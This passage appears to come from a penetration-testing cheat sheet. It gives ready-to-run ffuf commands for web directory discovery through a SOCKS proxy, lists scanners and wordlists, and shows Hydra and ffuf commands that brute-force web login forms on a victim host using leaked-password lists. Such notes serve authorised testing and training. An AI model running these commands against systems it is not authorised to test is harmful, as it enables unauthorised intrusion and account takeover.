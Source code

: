 ```sh
# Example:
# {GOBUSTER}/v1
# {GOBUSTER}/v2
```

Web Directory discovery with ffuf (great for scanning through SOCKS proxy):

```bash
# FFUF as a dirbuster through a SOCKS proxy
ffuf -o ffuf.json -recursion -recursion-depth 2 -x socks5://localhost:1080 -e .php,.jsp,.txt,.cgi,.asp,.aspx -u http://$VICTIM_IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
# pretty print json output:
ffuf.json | python -m json.tool
```

Other web discovery tools:

- feroxbuster - fast scanner written in Rust
- dirb
- dirbuster
- wfuzz


Good wordlists to try:
- /usr/share/dirb/wordlists/small.txt
- /usr/share/dirb/wordlists/common.txt
- /usr/share/dirb/wordlists/catala.txt
- /usr/share/dirb/wordlists/big.txt
- /usr/share/dirbuster/wordlists/directory-list-1.0.txt
- /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
- /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt



### 4.5.2. Web Bruteforcing

Hydra help/usage for specific module:

```bash
hydra -U http-post-form
```

Web Forms (POST request):

```bash
# using hydra
# string format "<webform-path>:<username-field>=^USER^&<password-field>=^PASS^:<bad-pass-marker>"
# '-l admin' means use only the 'admin' username. '-L userlist.txt' uses many usernames
# '-P wordlist.txt' means iterate through all passwords in wordlist. '-p password123' uses only that one.
# '-t 64': use 64 threads
# change to https-web-form for port 443
hydra -V -f -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt $VICTIM_IP http-post-form "/blog/admin.php:username=^USER^&password=^PASS^:Incorrect username" -t 64

# proxy-aware password bruteforcing with ffuf
ffuf -x socks5://localhost:1080 -u http://$VICTIM_IP/login -X POST -w /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt -d "Username=admin&Password=FUZZ&RememberMe=true" -fw 6719
```
